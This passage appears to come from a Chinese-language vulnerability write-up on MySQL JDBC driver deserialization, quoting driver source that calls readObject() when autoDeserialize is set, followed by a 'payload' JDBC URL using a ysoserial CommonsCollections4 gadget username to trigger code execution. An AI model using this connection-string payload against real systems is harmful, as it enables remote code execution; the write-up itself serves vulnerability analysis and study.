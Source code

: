                 if (this.connection.getAutoDeserialize()) {
                    Object obj = data;
                    //data不为空且大于2
                    if ((data != null) && (data.length >= 2)) {
                        //判断是否为java反序列化数据  -84 -19为java对象序列化数据魔术头
                        if ((data[0] == -84) && (data[1] == -19)) {
                            // Serialized object
                            //进行反序列化调用readObject()
                            try {
                                ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
                                ObjectInputStream objIn = new ObjectInputStream(bytesIn);
                                obj = objIn.readObject();
                                objIn.close();
                                bytesIn.close();
                            } catch (ClassNotFoundException cnfe) {
                                throw SQLError.createSQLException(
                                        Messages.getString("ResultSet.Class_not_found___91") + cnfe.toString()
                                                + Messages.getString("ResultSet._while_reading_serialized_object_92"), getExceptionInterceptor());
                            } catch (IOException ex) {
                                obj = data; // not serialized?
                            }
                        } else {
                            return getString(columnIndex);
                        }
                    }

                    return obj;
                }

                return data;
            }

            return getBytes(columnIndex);

        case Types.DATE:
            ......
    }
}` 

#### [payload](#toc_payload_1)

`String url = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/66b5c9a9-719f-45f7-8d1c-a9093afbfb22.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/45ed6f01-3cca-4643-afaa-334aade0b92e.png)

### [5.1.41-5.1.48](#toc_5141-5148)

